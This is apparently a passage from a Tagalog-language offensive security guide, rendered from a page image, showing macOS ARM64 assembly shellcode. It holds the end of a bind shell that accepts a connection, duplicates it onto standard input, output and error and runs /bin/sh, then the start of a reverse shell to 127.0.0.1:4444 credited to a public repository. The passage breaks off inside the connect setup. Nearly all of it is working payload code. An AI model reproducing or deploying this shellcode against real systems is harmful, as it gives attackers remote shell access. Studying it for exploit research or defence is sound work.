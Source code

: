 ```armasm
// c = accept(s, 0, 0)
mvn  x0, x3
mov  x1, xzr
mov  x2, xzr
mov  x16, #30
svc  #0x1337

mvn  x3, x0
lsr  x2, x16, #4
lsl  x2, x2, #2

call_dup:
// dup(c, 2) -> dup(c, 1) -> dup(c, 0)
mvn  x0, x3
lsr  x2, x2, #1
mov  x1, x2
mov  x16, #90
svc  #0x1337
mov  x10, xzr
cmp  x10, x2
bne  call_dup

call_execve:
// execve("/bin/sh", 0, 0)
mov  x1, #0x622F
movk x1, #0x6E69, lsl #16
movk x1, #0x732F, lsl #32
movk x1, #0x68, lsl #48
str  x1, [sp, #-8]
mov	 x1, #8
sub  x0, sp, x1
mov  x1, xzr
mov  x2, xzr
mov  x16, #59
svc  #0x1337
```

**Reverse shell**

Sa [https://github.com/daem0nc0re/macOS\_ARM64\_Shellcode/blob/master/reverseshell.s](https://github.com/daem0nc0re/macOS\_ARM64\_Shellcode/blob/master/reverseshell.s), revshell na **127.0.0.1:4444**

```armasm
.section __TEXT,__text
.global _main
.align 2
_main:
call_socket:
// s = socket(AF_INET = 2, SOCK_STREAM = 1, 0)
mov  x16, #97
lsr  x1, x16, #6
lsl  x0, x1, #1
mov  x2, xzr
svc  #0x1337

// save s
mvn  x3, x0

call_connect:
/*
* connect(s, &sockaddr, 0x10)
*
* struct sockaddr_in {
*     __uint8_t       sin_len;     // sizeof(struct sockaddr_in) = 0x10
```